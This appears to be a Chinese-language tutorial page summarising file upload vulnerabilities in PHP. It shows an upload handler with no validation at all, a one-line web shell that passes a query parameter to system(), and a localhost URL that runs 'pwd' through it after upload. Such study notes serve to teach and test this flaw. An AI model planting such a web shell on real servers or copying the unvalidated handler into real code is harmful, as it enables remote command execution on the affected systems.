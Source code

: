 # file_upload_conclusion

**概述： 文件上传漏洞的自我总结**

## 文件上传校验姿势
* 客户端
	* 完全没有校验
	* 客户端javascript校验
* 服务器端
	* content-type字段验证



### 完全没有校验

index.php
```php
<?php
if (!empty($_FILES)) {
	var_dump($_FILES);
	if ($_FILES['upload']['error'] > 0) {
		echo "error: " . $_FILES['upload']['error'] . '<br />';
	}else{
		$upload_name = './uploaded/' . $_FILES['upload']['name'];
		move_uploaded_file($_FILES['upload']['tmp_name'], $upload_name);
	}

}else{
?>
	<form action="#" method="POST" enctype="multipart/form-data">
	<input type="file" name="upload">
	<input type="submit" name="upload">
	</form>
<?php
}
?>
```

shell1.php
```php
<?php system($_GET['cmd']);?>
```

直接上传文件即可getshell

`http://127.0.0.1/uploaded/shell1.php?cmd=pwd`


![](assets/markdown-img-paste-20180415163701170.png)
